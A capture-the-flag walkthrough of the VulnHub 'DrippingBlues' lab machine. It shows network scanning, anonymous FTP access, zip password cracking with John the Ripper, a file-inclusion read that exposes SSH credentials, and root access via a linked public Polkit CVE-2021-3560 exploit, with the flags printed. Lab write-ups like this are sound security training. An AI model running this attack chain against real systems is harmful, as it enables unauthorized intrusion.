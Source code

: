 [Download Link](https://download.vulnhub.com/drippingblues/drippingblues.ova)

finding ip of the target machine 
```
sudo arp-scan -l
```

nmap scan
```
nmap -sV -O -T4 --min-rate=1000 $ip
```
output:
```zsh
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
MAC Address: 08:00:27:6A:91:2A (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, OpenWrt 21.02 (Linux 5.4), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
```

port scan:
```
nmap -sC -sV -Pn -p21,22,80 $ip
```
output:
```zsh
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxrwxrwx    1 0        0             471 Sep 19  2021 respectmydrip.zip [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.170.71.2
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 9e:bb:af:6f:7d:a7:9d:65:a1:b1:a1:be:91:cd:04:28 (RSA)
|   256 a3:d3:c0:b4:c5:f9:c0:6c:e5:47:64:fe:91:c5:cd:c0 (ECDSA)
|_  256 4c:84:da:5a:ff:04:b9:b5:5c:5a:be:21:b6:0e:45:73 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/dripisreal.txt /etc/dripispowerful.html
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.41 (Ubuntu)

```
saw anon ftp login allowed

login with anon
```
ftp $ip
```
username: `anonymous`
password: `anonymous`

did something and exit
```ftp
ftp> ls
229 Entering Extended Passive Mode (|||61947|)
150 Here comes the directory listing.
-rwxrwxrwx    1 0        0             471 Sep 19  2021 respectmydrip.zip
226 Directory send OK.
ftp> get respectmydrip.zip
local: respectmydrip.zip remote: respectmydrip.zip
229 Entering Extended Passive Mode (|||31022|)
150 Opening BINARY mode data connection for respectmydrip.zip (471 bytes).
100% |***************************************************************************************************************************************************************************************|   471       15.56 KiB/s    00:00 ETA
226 Transfer complete.
471 bytes received in 00:00 (15.39 KiB/s)
ftp> exit
221 Goodbye.

```

unzip the `respectmydrip.zip`
```
unzip respectmydrip.zip
```
output:
```zsh
Archive:  respectmydrip.zip
[respectmydrip.zip] respectmydrip.txt password: 
```
saw its password protected

used jtR to crack the zip pass
```
zip2john respectmydrip.zip > hash.txt && john hash.txt
```
output:
```zsh
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 16 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
Proceeding with incremental:ASCII
0g 0:00:00:54  3/3 0g/s 40279Kp/s 40279Kc/s 40279KC/s lm1d3ep..l1lbehn
072528035        (respectmydrip.zip/respectmydrip.txt)     
1g 0:00:01:23 DONE 3/3 (2025-09-04 02:52) 0.01191g/s 41562Kp/s 41562Kc/s 41562KC/s 072238647..072709314
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```
got the password of the zip: `072528035`

went to http 
run gobuster
```
gobuster dir -u http://$ip -w /usr/share/dirb/wordlists/big.txt -t 300 -x txt,php,html -q
```
output:
```zsh
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd.php        (Status: 403) [Size: 277]
/.htaccess.html       (Status: 403) [Size: 277]
/.htpasswd.txt        (Status: 403) [Size: 277]
/.htaccess.php        (Status: 403) [Size: 277]
/.htpasswd.html       (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.htaccess.txt        (Status: 403) [Size: 277]
/index.php            (Status: 200) [Size: 138]
/robots.txt           (Status: 200) [Size: 78]
/robots.txt           (Status: 200) [Size: 78]
/server-status        (Status: 403) [Size: 277]
```

checked the `robots.txt`
got 2 pages as 
`User-agent: *`
`Disallow: /dripisreal.txt`
`Disallow: /etc/dripispowerful.html`

went to `/dripisreal.txt`
got some information about the password
nothing works :(

went to  `/etc/dripispowerful.html`
`http://10.170.71.84/index.php?drip=/etc/dripispowerful.html`
got an image from there
`password is:
`imdrippinbiatch`

 tried ssh to login on thugger
 ```
 ssh thugger@$ip
 ```
 password: imdrippinbiatch
logged in as user and got the user flag
```
5C50FC503A2ABE93B4C5EE3425496521
```

trying exploits:
dirty pipe: failed
dirty creds: failed
pwn kit: failed
pol kit: success
https://github.com/Almorabea/Polkit-exploit/blob/main/CVE-2021-3560.py

download the exploit it in target machine
```
chmod +x polkit.py
python3 polkit.py
```
Access Granted ROOT

```
cd /root
ls
cat root.txt
```

Root Flag 
```
78CE377EF7F10FF0EDCA63DD60EE63B8
```




